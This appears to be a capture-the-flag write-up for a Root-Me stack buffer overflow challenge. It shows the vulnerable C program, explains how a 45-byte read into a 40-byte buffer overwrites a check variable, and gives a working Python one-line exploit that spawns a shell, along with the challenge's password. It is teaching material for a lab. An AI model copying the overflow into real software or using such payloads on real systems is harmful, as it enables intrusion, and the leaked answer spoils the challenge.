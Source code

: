 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
This challenge is not required to use **GDB**. Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**. Beside, **buf** takes "45 bytes" input while "40 bytes" in declaration, which makes it able to override the value of **check**.<br>
### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
 Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
 But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
 As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Pass: 1w4ntm0r3pr0np1s

